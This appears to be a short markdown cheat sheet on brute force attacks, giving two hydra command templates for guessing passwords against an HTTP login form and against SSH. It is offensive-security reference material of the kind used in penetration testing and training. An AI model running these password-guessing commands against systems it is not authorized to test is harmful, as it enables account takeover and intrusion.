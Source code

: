 # Brute force attacks

**Brute force attacks** are attacks where a vast amount of options are tested in
order to find credentials or similar.

## Examples with hydra

Here are some examples of password brute force attacks using the `hydra` tool.

### HTTP form data

```sh
hydra -l <username> -P <list-list> <ip> http-post-form "/rest/user/login:email=^USER^&password=^PASSWORD^:F=Invalid"
```

### SSH

```sh
hydra -l <username> -P <password-list> ssh://<ip>
```
